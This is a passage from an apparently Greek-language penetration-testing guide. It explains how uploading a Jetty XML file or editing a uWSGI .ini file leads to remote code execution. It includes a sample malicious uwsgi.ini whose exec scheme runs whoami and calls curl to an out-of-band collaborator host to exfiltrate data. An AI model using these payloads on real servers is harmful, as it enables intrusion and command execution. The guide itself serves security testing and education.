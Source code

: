 Αν μπορείτε να ανεβάσετε ένα αρχείο XML σε έναν διακομιστή Jetty μπορείτε να αποκτήσετε [RCE επειδή **νέα \*.xml και \*.war επεξεργάζονται αυτόματα**](https://twitter.com/ptswarm/status/1555184661751648256/photo/1)**.** Έτσι, όπως αναφέρεται στην παρακάτω εικόνα, ανεβάστε το αρχείο XML στο `$JETTY_BASE/webapps/` και περιμένετε το shell!

![https://twitter.com/ptswarm/status/1555184661751648256/photo/1](<../../.gitbook/assets/image (1047).png>)

## **uWSGI RCE**

Για μια λεπτομερή εξερεύνηση αυτής της ευπάθειας ελέγξτε την αρχική έρευνα: [uWSGI RCE Exploitation](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html).

Οι ευπάθειες Remote Command Execution (RCE) μπορούν να εκμεταλλευτούν σε διακομιστές uWSGI αν κάποιος έχει τη δυνατότητα να τροποποιήσει το αρχείο ρύθμισης `.ini`. Τα αρχεία ρύθμισης uWSGI εκμεταλλεύονται μια συγκεκριμένη σύνταξη για να ενσωματώσουν "μαγικές" μεταβλητές, placeholders και τελεστές. Ιδιαίτερα, ο τελεστής '@', που χρησιμοποιείται ως `@(filename)`, έχει σχεδιαστεί για να περιλαμβάνει το περιεχόμενο ενός αρχείου. Μεταξύ των διαφόρων υποστηριζόμενων σχημάτων στο uWSGI, το "exec" σχήμα είναι ιδιαίτερα ισχυρό, επιτρέποντας την ανάγνωση δεδομένων από την τυπική έξοδο μιας διαδικασίας. Αυτή η δυνατότητα μπορεί να χειραγωγηθεί για κακόβουλους σκοπούς όπως Remote Command Execution ή Arbitrary File Write/Read όταν ένα αρχείο ρύθμισης `.ini` επεξεργάζεται. 

Σκεφτείτε το παρακάτω παράδειγμα ενός κακόβουλου αρχείου `uwsgi.ini`, που παρουσιάζει διάφορα σχήματα:
```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; curl to exfil via collaborator
extra = @(exec://curl http://collaborator-unique-host.oastify.com)
; call a function returning a char *
characters = @(call://uwsgi_func)
```
Η εκτέλεση του payload συμβαίνει κατά τη διάρκεια της ανάλυσης του αρχείου ρυθμίσεων. Για να ενεργοποιηθεί και να αναλυθεί η ρύθμιση, η διαδικασία uWSGI πρέπει είτε να επανεκκινηθεί (πιθανώς μετά από μια κατάρρευση ή λόγω επίθεσης Άρνησης Υπηρεσίας) είτε το αρχείο πρέπει να ρυθμιστεί για αυτόματη επαναφόρτωση. Η δυνατότητα αυτόματης επαναφόρτωσης, αν είναι ενεργοποιημένη, επαναφορτώνει το αρχείο σε καθορισμένα διαστήματα μόλις ανιχνεύσει αλλαγές.

Είναι κρίσιμο να κατανοήσουμε τη χαλαρή φύση της ανάλυσης του αρχείου ρυθμίσεων του uWSGI. Συγκεκριμένα, το συζητηθέν payload μπορεί να εισαχθεί σε ένα δυαδικό αρχείο (όπως μια εικόνα ή PDF), διευρύνοντας περαιτέρω το πεδίο της πιθανής εκμετάλλευσης.

## **wget File Upload/SSRF Trick**
